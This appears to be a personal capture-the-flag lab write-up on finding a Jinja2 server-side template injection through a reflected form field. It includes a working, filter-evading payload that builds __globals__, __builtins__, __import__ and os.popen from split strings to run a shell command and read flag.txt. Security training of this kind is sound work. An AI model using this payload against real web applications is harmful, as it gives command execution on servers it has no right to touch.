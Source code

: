 
2025-07-14 19:49

Tags: [[Python]]

### Lab (pentathon '25)

Capturing the request and sending it, we can see that the `name` field is reflected back to us. Before trying `sqli` we input characters like `<>` to see if we can do `xss` payload. We also try `{{}}` to check for `ssti` (template injection).
Sending `{{7*7}}` we get back `49`. So the site is vulnerable to `SSTI`.

> After the server blocking some request and either giving us error or not allowed we get some progress using `{{request}}`.

Payload used for SSTI 
```
name={% set b = request.application[['__glo','bals__'] | join][['__buil','tins__'] | join] %}
{% set i = b[['__impo','rt__'] | join] %}
{% set o = i(['o','s'] | join) %}
{% set p = o[['po','pen'] | join] %}
{% set cmd = ['c','a','t',' ','fl','ag','.txt'] | join %}
{{p(cmd).read()}}
&email=test%40mail.com&message=Test
```


### References

Jinja2 - [Server Side Template Injection with Jinja2 for you now](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)